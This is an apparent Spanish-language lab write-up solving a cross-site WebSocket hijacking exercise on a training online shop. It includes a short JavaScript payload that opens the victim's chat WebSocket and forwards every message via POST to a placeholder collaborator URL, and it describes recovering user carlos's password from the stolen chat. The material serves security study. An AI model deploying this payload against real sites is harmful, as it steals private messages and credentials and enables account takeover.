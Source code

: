 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta información

```python
<script> 
var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

- **Se conecta a un servidor WebSocket**
    
    - El navegador establece una conexión con un servidor remoto (controlado por el atacante o sistema).
        
    - Esta conexión se mantiene abierta para recibir mensajes en tiempo real.
        
- **Envía una señal de "listo"**
    
    - Al establecer la conexión, el navegador envía un mensaje tipo `"READY"` para avisar que está conectado y esperando instrucciones.
        
- **Escucha mensajes entrantes**
    
    - El servidor WebSocket puede enviar mensajes al navegador.
        
- **Reenvía esos mensajes a otro servidor**
    
    - Cada mensaje recibido es automáticamente enviado (como una solicitud POST) a otra URL, bajo control del atacante. en este caso el WebSocket que hemos creado 

![[Pasted image 20250729142914.png]]

una vez realizado esto solo debemos esperar a que la victima haga clic en la solicitud para recibir la informacion
![[Pasted image 20250729142857.png]]

ahora solo nos queda limpiar nuestros mensajes y decodearlos de esta manera obtenemos un usuario y una contraseña
![[Pasted image 20250729143812.png]]

iniciamos sesión con el usuario carlos y de esta manera hemos logrado exfiltrar la información del chat, obtener un usuario y una contraseña.
![[Pasted image 20250729143941.png]]